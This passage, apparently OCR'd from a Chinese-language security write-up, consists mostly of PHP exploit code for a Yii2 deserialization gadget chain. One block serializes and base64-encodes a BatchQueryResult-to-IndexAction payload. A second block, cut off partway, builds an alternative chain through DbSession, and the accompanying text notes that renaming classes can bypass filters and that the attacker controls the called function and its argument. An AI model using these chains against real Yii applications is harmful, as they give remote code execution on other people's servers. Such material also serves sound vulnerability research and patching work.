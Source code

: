 ```php
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['close'] = [new IndexAction(), 'run'];
        }
    }
}
namespace yii\db{

    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator();
        }
    }
}
namespace{

    use yii\db\BatchQueryResult;

    echo base64_encode(serialize(new BatchQueryResult()));
}


```

有时候一些绕过可以改下命名空间和类的名字，然后==`checkAccess`==和==`id`==是我们可控的

```php
<?php
namespace yii\rest {
    class Action
    {
        public $checkAccess;
    }
    class IndexAction
    {
        public function __construct($func, $param)
        {
            $this->checkAccess = $func;
            $this->id = $param;
        }
    }
}
namespace yii\web {
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct($func, $param)
        {
            $this->writeCallback = [new \yii\rest\IndexAction($func, $param), "run"];
        }
    }
}
namespace yii\db {
    use yii\base\BaseObject;
```